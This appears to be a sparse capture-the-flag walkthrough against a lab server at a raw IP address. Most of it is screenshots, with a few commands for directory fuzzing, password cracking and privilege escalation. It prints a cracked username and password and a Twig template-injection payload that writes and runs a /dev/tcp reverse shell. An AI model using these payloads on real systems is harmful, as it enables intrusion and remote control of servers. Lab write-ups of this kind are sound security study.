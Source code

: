 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c079d78e-b88f-4b01-a521-ad09aecc85c3)

```
ffuf -u http://62.173.140.174:28280/FUZZ.zip -w ~/PayloadsAllTheThings/payloads/owasp/dirbuster/directory-list-2.3-big.txt
```

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f5aac93b-2e9e-4578-beab-2ac40f327e1a)

john

gravman:2yyaeg2AiWy2v6E

https://github.com/advisories/GHSA-f9jf-4cp4-4fq5

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/48953f60-45db-40b4-8cd2-37ad2c95b2ea)

{{['echo "sh -i >& /dev/tcp/IP/1234 0>&1" > sc.sh']|filter('system')}}
{{['bash sc.sh']|filter('system')}}

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/bbfefa19-696d-448d-a6bd-246dc81125ba)

https://hackware.ru/?p=13801#410

GPG

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/1aea425a-35d0-48f9-b350-86b23d0d7b66)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/97a39e8a-3a19-4f40-83df-e96b5990b497)

https://superuser.com/questions/920793/how-to-specify-private-key-when-decrypting-a-file-using-gnupg

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/49f94d47-ff23-42bc-8fe2-516a20ed51a9)

https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/python-privilege-escalation/

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/d100c7ce-18f4-4b06-b93b-8ec3f5fb5e6b)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/de0edd24-ba7d-4278-8567-4b6b870f9fd1)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/76fba23b-0037-470d-9492-a1ee729cbda3)





